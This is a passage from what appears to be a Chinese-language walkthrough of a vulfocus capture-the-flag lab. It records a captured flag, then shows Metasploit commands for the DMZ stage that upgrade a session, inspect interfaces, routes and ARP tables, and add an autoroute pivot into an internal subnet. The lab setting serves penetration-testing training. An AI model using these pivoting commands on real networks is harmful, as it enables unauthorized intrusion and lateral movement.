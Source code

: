 ![](./img/1f.png)
回到vulfocus页面输入flag进行验证
`flag-{bmhb544a366-b748-4881-9d5d-c1c1d7362859}`

**高亮提醒**：记得通过 CTRL-Z 将当前会话放到后台继续执行


#### 2.2 DMZ 内网第一层靶标 get flag

- **（1）建立立足点并发现靶标2-4**
```shell
# 升级session
sessions -u 1
# 查看并进入升级后的session 并通过查看网卡列表发现里面还有一个网卡
sessions -i 2
ipconfig
# 查看路由表
ipconfig
# 查看 ARP 表
arp
# 创建路由
run autoroute -s 192.168.40.0/24
# 检查 Pivot 路由是否已创建成功
run autoroute -p
```